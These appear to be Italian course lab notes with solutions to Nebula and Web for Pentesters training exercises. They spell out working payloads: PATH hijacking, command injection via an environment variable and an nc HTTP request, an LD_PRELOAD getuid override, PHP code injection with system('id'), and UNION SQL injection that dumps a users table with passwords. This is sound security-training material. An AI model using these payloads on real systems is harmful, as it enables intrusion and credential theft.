 # Esercizi di laboratorio:  


### Nebula 
- lvl 00
- lvl 01:  
    Il comando echo dentro l'eseguibile è eseguito tramite il comando env, che consente di eseguire un comando esterno in un ambiente UNIX.  
    ```bash
    # echo $PATH contiene percorso ricerca UNIX dei binari 
    # si modifica PATH prependendo la directory /tmp
    export PATH=/tmp:$PATH
    echo $PATH # mostra /tmp come prima dir di ricerca

    # Si copia il file /bin/getflag in /tmp/echo 
    cp /bin/getflag /tmp/echo # ora env echo invoca getflag

    cd /home/flag01
    ./flag01 # invoca getflag con i privilegi di getflag!
    ```
- lvl 02:
    Nelle ultime righe del codice sorgente notiamo che viene copiata in un buffer una stringa rappresentante un comando, viene usata la variabile `$USER` come comando, usando export la ridefiniamo con una comand injection: comando_safe + carattere separatore + comando_malizioso + commento. 

    ```bash
    echo $USER # stampa valore corrente ossia: level02
    # si imposta l input malizioso in USER con export 
    export USER="level02; getflag #"
    echo $USER # otteniamo level02; getflag #
    cd /home/flag02
    ./flag02 # esegue getflag con i permessi fi flag02 in quanto il binario ha setuid attivo
    ```
- lvl 03
- lvl 05
- lvl 06
- lvl 07:
    In questa challenge si manomette uno script perl per eseguire getflag con permessi elevati. Nello script perl si prende in input un host ma non si sanifica l'input, si può eseguire una comand injection.  
    comand $\rightarrow$ 8.8.8.8 ; getflag \r\n\r\n (bisogna usare il webserver in ascolto)

    ```bash
    echo -ne "GET /index.cgi?Host=8.8.8.8%3Bgetflag\r\n\r\n" | nc localhost 7007
    ```
    Questo permette di eseguire `getflag` con i permessi di level07.  
    **nota importante**: Bisogna usare l'URL encoding per passare il carattere `;` in quanto tale carattere è speciale e viene consumato dal webserver per separare argomenti della query, si prende quindi il codice ASCII di `;` e lo si  traduce in esadecimeale ossia `3B`, si usa il carattere `%` per attivare l'URL encoding. 
    **nota2:** `\r\n\r\n` indica la fine degli header HTTP, senza il server non capisce che la richiesta è finita e non esegue il comando.    


- lvl 08
- lvl 10 (toctou)
- lvl 13:  
    Iniezione di libreria: si sfrutta la variabile di ambiente `LD_LIBRARY_PATH` o `LD_PRELOAD`.  
    Scopriamo che `LD_PRELOAD` contiene un elenco di librerire condivise e tali librerie sono collegate prima di tutte le altre richieste da un file binario eseguibile (LD_PRELOAD =/path/to/lib.so:/path2/...).  
    Attenzione: questa vulnerabilità funziona solo per file compilati dinamicamente in quanto server l'iniezione di libreria, se è statico allora non si può sfruttare questo exploit.  
    Step: 
    1. generare libreria condivisa che sovrascrive la funzione getuid(), facciamo ritornare sempre 1000 
    2. compilare la libreria con -shared e -fPIC 
    3. copiare l'eseguibile da /home/flag13/flag13 in /home/level13 per rimuovere il setuid
    4. iniettare la libreria: export LD_PRELOAD = ./setuid.so
    5. ottenre credenziali 

    ```c++
    // si scrive un eseguibile in c per sovrascrivere la funzione getuid:
    uid_t getuid(void){
        return 1000;
    }
    ```
    ```bash
    # generiamo libreria condivisa con gcc
    gcc -shared -fPIC -o getuid.so getuid.c 
    export LD_PRELOAD=./getuid.so 
    # copiamo il file eseguibile nella directory attuale per eliminare il setuid da esso
    cp /home/flag13/flag13 /home/level13

    # eseguiamo il file
    ./flag13 # -> otteniamo la password per flag13 (su flag13)
    ```

### Protostar 
- stack 01 
- stack 03
- stack 05


### Web4PenTesters
- Code Injection 1:
    Si guarda il codice sorgente in `/var/www/codeexec` e si nota che viene usata una stringa $str = 'echo...' e che tale stringa viene interpretata come una espressione php.  
    Si usa lo schema di attacco generico: 
    ``` 
    INPUT = input legittimo +  
            carattere separatore codice +  
            codice php arbitrario  +  
            carattere chiusura.  
    ```

    ```bash
    # useremo la seguente struttura per visualizzare i privilegi:
    name = hacker \" +
        + ; 
        + system("id");
        + \" 

    # andremo a scrivere nell\'url il seguente input:
    ...example1.php/name=hacker";system("id");"
    ```
    Questo ci permetterà di chiamare ID e vedere gli uid e gid 
- XSS 1 
- File include 1 
- SQL Injections 1:  
    Nel codice sorgente della sfida notiamo che viene costruita una stringa rappresentante uno statement SQL, tale input non viene controllato in alcun modo e viene mandato ad un DBMS MySQL per l'esecuzione.  
    Si adotta lo schema classico di iniezione al caso specifico.  
    È possibile usare l'operatore **`OR`** per iniettare un comando e l'espressione in questo modo diventa una _tautologia_

    ```bash
    # tautologia
    .../example1.php/name=root 'or 1=1%23 '#

    # clausola SELECT e ORDER BY (per determinare il numero di colonne)  
    .../exmaple1.php/name=root' UNION SELECT NULL,NULL,NULL,NULL,NULL%23 '#
    # oppure 
    .../exmaple1.php/name=root' ORDER BY 6 %23 '# genera un errore allora capisco che si tratta di 5 colonne, infatti:
    .../exmaple1.php/name=root' ORDER BY 5 %23 # non genera errore ! '#
    ```

    Una volta determinato il numero di colonne riesco a eseguire Query omogenee, a questo punto posso enumerare il db e ottenere il suo nome per avanzare nella SQL injection:

    - `root' UNION SELECT version(), database(), current_user(),4,5 %23`

    A questo punto ottengo il nome del DB ossia **exercises**

    Per estrarre le tabelle interessanti del DB devo iniettare il comando `information_schema.tables` tramite una UNION.  

    - `root' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables where table_schema='exercises'%23`  
    Noto che il db exercises ha una sola tabella di nome `users`  

    Faccio la stessa cosa ma per vedere la struttura della colonne  
    - `root' UNION SELECT column_name,2,3,4,5 from information_schema.columns where table_schema ='exercises and table_name='users' %23`
    Noto che la tabella users ha 5 colonne: id, name, age, groupid, passwd  

    A questo punto posso fare il dump della tabella, basta uno statement SELECT che selezioni le colonne interessanti (id,name,passwd) della tabella di interessa (users)

    - `root' UNION SELECT id,name,passwd,4,5 from users %23`

    ![result sql injection 1](../../images/sql_inj_result1.png)  

    **nota:** Se si è a corto di colonne riflesse si può usare la funzione di sistema `concat()` per concatenare valori di colonne diverse.  

    - `root' UNION SELECT concat(id,':',name,':',passwd),2,3,4,5 from users %23`  
    In questo modo l'ouput interessante ora è compattato in un unica colonna.  
    




